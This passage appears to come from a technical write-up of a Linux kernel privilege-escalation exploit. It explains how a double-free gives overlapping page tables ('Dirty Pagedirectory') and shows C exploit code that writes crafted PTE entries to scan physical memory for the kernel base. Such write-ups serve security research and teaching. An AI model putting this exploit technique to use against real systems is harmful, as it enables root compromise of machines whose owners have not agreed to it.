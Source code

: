 Copy

Codeblock 5.1.3.1.1: The `is_kernel_base()` exploit function written in C, compares memory to signatures of the kernel base.

Now, it is time to scan. We fill the PTE page (which overlaps with the PMD page responsible for `pmd_kernel_area`) with all 512 pages which could be the kernel base page. If we had to scan more than 512 pages, we simply put the code in a loop with an incrementing PFN (physical address).

> To reiterate: it is 512 pages because we are dealing with 8GiB physical memory. If it were 4GiB, it would be 256 pages, since `4GiB / CONFIG_PHYSICAL_START = 256`.

When we are setting the PTE entry in the PTE page ( `pte_area[j] = (CONFIG_PHYSICAL_START * j) | 0x8000000000000867;`), we are setting both the PFN ( `CONFIG_PHYSICAL_START * j`) which can be considered the physical address, and the coresponding flags ( `0x8000000000000867`) like the permissions of said page (i.e. read/write).

Remember from the Dirty Pagedirectory section that because of the double-free: `mm->pgd[0][1]` (PMD) == `mm->pgd[0][2][0]` (PTE), and therefore `mm->pgd[0][1][x]` (PTE) == `mm->pgd[0][2][0][x]` (userland page) with x = 0->511. This means that we can overwrite 512 PTEs in the overlapping PMD with the 512 userland pages. These 512 PTEs are responsible for another 512 userland pages, which means we can set `512 * 512 * 0x1000 = 0x4000'0000` (1GiB) of memory at a time.

For readability I use utilize only 2 PTEs from these 512 PTEs, and respectively use them as `pmd_kernel_area` (for scanning kernel bases) and `pmd_data_area` (for scanning kernel memory content).

```c
static void privesc_flh_bypass_no_time(int shell_stdin_fd, int shell_stdout_fd)
{
    // ... (setup dirty pagedirectory)

	// range = (k * j) * CONFIG_PHYSICAL_ALIGN
	// scan 512 pages (1 PTE worth) for kernel base each iteration
	for (int k=0; k < (CONFIG_PHYS_MEM / (CONFIG_PHYSICAL_ALIGN * 512)); k++)
	{
		unsigned long long kernel_iteration_base;

		kernel_iteration_base = k * (CONFIG_PHYSICAL_ALIGN * 512);

		PRINTF_VERBOSE("[*] setting kernel physical address range to 0x%016llx - 0x%016llx\n", kernel_iteration_base, kernel_iteration_base + CONFIG_PHYSICAL_ALIGN * 512);
		for (unsigned short j=0; j < 512; j++)
			pte_area[j] = (kernel_iteration_base + CONFIG_PHYSICAL_ALIGN * j) | 0x8000000000000867;

		flush_tlb(_pmd_area, 0x400000);

		// scan 1 page (instead of CONFIG_PHYSICAL_ALIGN) for kernel base each iteration
		for (unsigned long long j=0; j < 512; j++)
		{
			unsigned long long phys_kernel_base;

			// check for x64-gcc/clang signatures of kernel code segment at rest and at runtime
			// - this "kernel base" is actually the assembly bytecode of start_64() and variants
			// - it's different per architecture and per compiler (clang produces different signature than gcc)
			// - this can be derived from the vmlinux file by checking the second segment, which starts likely at binary offset 0x200000
			//   - i.e: xxd ./vmlinux | grep '00200000:'

			phys_kernel_base = kernel_iteration_base + CONFIG_PHYSICAL_ALIGN * j;

